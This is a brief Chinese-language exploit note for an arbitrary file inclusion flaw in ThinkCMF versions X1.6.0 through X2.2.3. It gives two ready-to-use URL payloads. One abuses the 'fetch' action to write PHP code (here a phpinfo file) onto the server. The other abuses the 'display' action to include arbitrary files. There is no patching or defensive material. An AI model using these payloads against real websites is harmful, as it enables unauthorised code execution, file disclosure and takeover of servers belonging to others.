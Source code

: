 # ThinkCMF框架任意文件包含

Ver：
ThinkCMF X1.6.0  
ThinkCMF X2.1.0  
ThinkCMF X2.2.0  
ThinkCMF X2.2.1  
ThinkCMF X2.2.2  
ThinkCMF X2.2.3  

Exp：  
第一种：  
通过构造a参数的fetch方法，可以不需要知道文件路径就可以把php代码写入文件phpinfo版payload如下：  
```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```
第二种：  
通过构造a参数的display方法，实现任意文件包含漏洞
```
?a=display&templateFile=README.md
```
